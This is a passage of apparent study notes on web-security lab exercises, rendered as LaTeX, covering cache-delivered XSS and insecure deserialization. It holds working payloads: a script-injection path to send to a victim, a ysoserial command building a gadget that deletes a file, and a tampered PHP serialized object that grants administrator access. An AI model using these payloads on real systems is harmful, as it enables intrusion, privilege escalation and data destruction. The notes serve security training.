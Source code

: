 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/random"><script>alert(1)</script>
Cache this path and then deliver URL to the victim
\end{Verbatim}

\section{Insecure deserialization}\label{insecure-deserialization}

\subsection{Approach}\label{approach-16}

I recommend you to install \textbf{Java Deserialization Scanner}
extension for BurpSuite to scan for the type of serialized object. Of
course, to create gadgets you will need to use
\href{https://github.com/frohoff/ysoserial}{ysoserial}.\\
Quick notes:\\
You need to have at least Java JDK 11 version to use the jar file!

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
java -jar ysoserial-all.jar CommonsCollections2 "rm /home/carlos/morale.txt" | gzip -f | base64 -w 0
\end{Verbatim}

\subsection{Labs}\label{labs-15}

\subsubsection{1. Modifying serialized data
types}\label{1-modifying-serialized-data-types}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
1. Change username to administrator (13 symbols)
2. Change parameter access_token from s to i as follows:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
\end{Verbatim}

\subsubsection{2. Using application functionality to exploit insecure
deserialization}\label{2-using-application-functionality-to-exploit-insecure-deserialization}
\end{document}
